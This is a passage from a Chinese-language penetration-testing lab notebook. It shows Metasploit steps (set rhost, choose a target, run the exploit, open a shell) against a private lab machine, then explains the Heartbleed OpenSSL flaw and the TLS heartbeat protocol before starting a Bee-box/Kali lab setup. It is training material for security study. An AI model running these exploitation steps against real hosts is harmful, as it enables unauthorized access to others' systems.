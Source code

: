    3. 输入show options 查看漏洞利用选项

   ![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-01_23-46-30.png)

   4. 输入set rhost 192.168.132.132

   5. show targets 查看payload参数 根据安装的ISO镜像选择,set targets10

   ![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-01_23-47-14.png)

   5. 输入run或者exploit弹出后输入shell成功获取靶机权限

![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-01_23-56-28.png)

6. 测试，输入dir输出靶机目录下文件

![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-01_23-57-27.png)

7. 渗透成功

## Heartbleed

### **心脏滴血漏洞简述**

2014年4月7日，OpenSSL发布安全公告，在OpenSSL1.0.1版本至OpenSSL1.0.1f Beta1版本中存在漏洞，该漏洞中文名称为心脏滴血，英文名称为HeartBleed。其中Heart是指该漏洞位于心跳协议上，Bleed是因为该漏洞会造成数据泄露。即HeartBleed是在心跳协议上的一个数据泄露漏洞，OpenSSL库中用到了该心跳协议。HeartBleed主要存在与OpenSSL的1.0.1版本到1.0.1f版本。

利用该漏洞，攻击者可以远程读取服务器内存中64K的数据，获取内存中的敏感信息。

 

### **漏洞范围**

**OpenSSL 1.0.1****版本**



ssl、tls、dtls介绍

在网络当中中，TCP/IP协议层之上的安全可以由Secure Socket Layer(SSL)及其替代协议Transport Layer Security (TLS)进行保障。这两个协议经常被称作SSL/TLS。HTTP是一个无状态的应用层协议，主要用来在服务器和客户端之间传输数据。HTTPS主要通过在HTTP层和TCP层之间增加了SSL/TLS层来保证服务器与客户端之间安全的传输数据。

DTLS(Datagram Transport Layer Security)即数据包传输层安全性协议，主要是试图在TLS协议架构上提出扩展，使之支持UDP。

TLS/DTLS中的心跳协议主要使用来检测两个设备之间是否还有连接的，根据RFC规定，心跳协议运行在TLS记录层之上，主要是通过交换“心跳”的方式，用来维持端与端之间的连接。



### 渗透过程

1. 环境搭建

靶机 Bee-box-> 192.168.132.133

攻击者 kali->192.168.132.130

2. ping bee_box 测试网络连通性
